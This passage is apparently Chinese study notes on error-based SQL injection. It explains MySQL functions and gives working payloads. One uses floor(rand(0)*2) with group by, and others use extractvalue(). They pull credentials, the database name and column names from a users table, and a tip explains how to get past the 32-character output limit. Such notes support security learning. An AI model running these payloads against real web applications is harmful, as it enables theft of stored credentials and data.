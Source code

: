 - rand()函数:随机返回0~1之间的小数

	`select rand() from users;`         #根据users的行数随机显示结果

	`select floor(rand())`                   #结果随机为0或1

floor()函数:小数向下取整数

ceiling()函数:小数向上取整数

concat_ws():将括号内数据用第一个字段连接起来

group by子句

as:别名

count():汇总统计数量

limit:这里用于显示指定行数

limit 0,1            #从第0行开始,显示1行

**实例:**

`?id=1' union select 1,count(*),concat_ws('~',(select concat('~',username,password) from users limit 0,1),floor(rand(0)*2)) as a from information_schema.tables group by a --+`



### extractValue()报错注入

- 正确写法:select extractvalue(doc,'/book/title') from xml

	#查询书名

- 把查询参数路径写错:select extractvalue(doc,'/book/titlell') from xml

​       #查询不到内容,但不会报错

- 把查询**参数格式符号**写错:select extractvalue(doc,'~book/title') from xml

​       #提示报错信息

利用extractvalue()报错注入:

?id=100' union select 1,extractvalue(1,`concat(0x7e,(select database())`)),3 --+

**concat():**拼接函数

**0x7e**:等同于'~'

**注意:**每次查询只需要更换``内的内容就可以

默认只能返回32个字符

**substring**解决只能返回32个字符的问题

`substring('目标字符串',从第几位开始显示,显示几位)`

**注入实例:**

?id=1' union select 1,2,extractvalue(1,concat('~',(select 
 group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))) --+
